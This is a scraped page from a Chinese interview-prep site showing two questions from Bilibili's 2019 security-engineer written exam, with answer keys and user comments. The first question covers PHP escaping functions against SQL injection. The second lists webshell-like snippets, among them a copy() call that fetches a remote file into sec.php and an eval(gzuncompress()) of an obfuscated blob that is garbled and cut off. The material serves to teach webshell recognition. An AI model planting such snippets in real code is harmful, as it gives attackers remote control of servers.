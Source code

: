 # 哔哩哔哩 2019 秋招技术岗（安全工程师）笔试题

## 1

PHP 提供以下哪个函数来避免 SQL 注入（）

正确答案: A   你的答案: 空 (错误)

```cpp
mysql_real_escape_string
```

```cpp
escapeshellarg
```

```cpp
htmlentities
```

```cpp
escapeshellcmd
```

本题知识点

Java 工程师 C++工程师 安卓工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 PHP 安全工程师 2019

讨论

[hzx1994](https://www.nowcoder.com/profile/529511)

escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数 htmlentities — 将字符转换为 HTML 转义字符 escapeshellcmd — shell 元字符转义 mysql_real_escape_string — 转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集 

发表于 2019-10-08 16:03:40

* * *

[牛客-hiro](https://www.nowcoder.com/profile/455648)

mysql_real_escape_string — 转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集。

发表于 2019-09-23 15:55:14

* * *

## 2

以下哪段代码不符合 WebShell 特征，应该作为白样本?（）

正确答案: C   你的答案: 空 (错误)

```cpp
echo copy("http://www.target.me/bili.txt","sec.php");
```

```cpp
eval(gzuncompress("xڕR?n?0\x0c=/@???.??M{???l@??Kr?T?,ː?nm?/e%?%??BR||??(6?P&?n??I?k?\x00?+߈?T?T???MX????2??P???\x0aV?4V??X???z,?\x0a?a2C?x?%?gMs?]\x24??ʾ?Z\x24i:??zv??R??ʴsB?i??xxZ<????{??tK\x09hᥩ?3??ƿvbNt?x?q????枓?j??CDnU???<?O??Ż??\x0a?^x?c?'>;V|\x0c??G4W?D9'|2-????+z???4?a??8?Wĩ7????????\x22?t7\x0c?,?h?}?hc1????_UJp??????n?E?e?>??uWF???E|??????0?9\x09??nZ1\x09v???Sna??
?Ӱ\x22D?=_?#|ܔ?⺄]??;???N"));
```
